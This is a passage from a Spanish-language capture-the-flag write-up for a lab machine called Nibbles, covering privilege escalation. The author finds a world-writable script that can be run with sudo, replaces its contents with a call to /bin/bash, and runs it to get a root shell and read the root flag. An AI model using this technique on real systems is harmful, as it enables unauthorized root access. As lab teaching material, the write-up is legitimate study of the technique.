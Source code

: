 ```bash
# Check Load Average
loadaverage=$(top -n 1 -b | grep "load average:" | awk '{print $10 $11 $12}')
echo -e '\E[32m'"Load Average :" $tecreset $loadaverage

# Check System Uptime
tecuptime=$(uptime | awk '{print $3,$4}' | cut -f1 -d,)
echo -e '\E[32m'"System Uptime Days/(HH:MM) :" $tecreset $tecuptime

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
```


Dado que tenemos CONTROL TOTAL SOBRE el fichero:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -lah
total 12K
drwxr-xr-x 2 nibbler nibbler 4.0K May 12 14:47 .
drwxr-xr-x 3 nibbler nibbler 4.0K Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler   22 May 12 14:47 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ 
```

Podemos editar el contenido y dejar simplemente una llamada a la bash:

```bash
#!/bin/bash
/bin/bash
```


De tal forma que cuando ejecutemos el script escalaremos privilegios a root y podremos capturar la flag:

```bash
monitor.shbbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh

root@Nibbles:/home/nibbler/personal/stuff# id
uid=0(root) gid=0(root) groups=0(root)
root@Nibbles:/home/nibbler/personal/stuff# cd /root
root@Nibbles:~# cat root.txt
41******2a74329**
root@Nibbles:~# 
```
